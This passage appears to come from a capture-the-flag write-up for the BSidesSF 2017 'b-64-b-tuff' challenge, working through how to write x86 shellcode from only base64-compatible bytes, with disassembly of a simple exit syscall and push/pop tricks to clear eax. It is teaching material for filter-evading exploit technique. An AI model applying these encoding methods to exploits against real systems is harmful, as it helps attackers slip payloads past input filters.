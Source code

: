 Something else to note: our shellcode is now largely base64! Let's look at the disassembled version so we can see where the problems are:

<pre id='vimCodeElement'>
$ <span class="Identifier">ndisasm</span> -<span class="Identifier">b32</span> <span class="Identifier">file</span>                               <span class="Number">65</span> [<span class="Number">11</span>:<span class="Number">16</span>:<span class="Number">34</span>]
<span class="Number">00000000</span>  <span class="Number">31</span><span class="Identifier">C0</span>              <span class="Identifier">xor</span> <span class="Identifier">eax</span>,<span class="Identifier">eax</span>
<span class="Number">00000002</span>  <span class="Number">40</span>                <span class="Identifier">inc</span> <span class="Identifier">eax</span>
<span class="Number">00000003</span>  <span class="Identifier">BB41414141</span>        <span class="Identifier">mov</span> <span class="Identifier">ebx</span>,<span class="Number">0x41414141</span>
<span class="Number">0000000</span><span class="Number">8</span>  <span class="Identifier">CD80</span>              <span class="Identifier">int</span> <span class="Number">0x80</span>
</pre>


Okay, maybe we aren't so close: the only line that's actually compatible is "inc eax". I guess we can start the long journey!

Let's start by looking at how we can clear eax using <a href='https://github.com/BSidesSF/ctf-2017-release/blob/master/pwn/b-64-b-tuff/solution/command_set.txt'>our instruction set</a>. We have a few promising instructions for changing eax, but these are the ones I like best:

<ul>
  <li>35 ?? ?? ?? ??        xor eax,0x????????</li>
  <li>68 ?? ?? ?? ??        push dword 0x????????</li>
  <li>58                pop eax</li>
</ul>

Let's start with the most naive approach:

<pre id='vimCodeElement'>
<span class="Identifier">push</span> <span class="Number">0</span>
<span class="Identifier">pop</span> <span class="Identifier">eax</span>
</pre>

If we assemble that, we get:

<pre id='vimCodeElement'>
<span class="Number">00000000</span>  <span class="Number">6</span><span class="Identifier">A00</span>              <span class="Identifier">push</span> <span class="Identifier">byte</span> +<span class="Number">0x0</span>
<span class="Number">00000002</span>  <span class="Number">58</span>                <span class="Identifier">pop</span> <span class="Identifier">eax</span>
</pre>


Close! But because we're pushing 0, we end up with a NUL byte. So let's push something else:

<pre id='vimCodeElement'>
<span class="Identifier">push</span> <span class="Number">0x41414141</span>
<span class="Identifier">pop</span> <span class="Identifier">eax</span>
</pre>
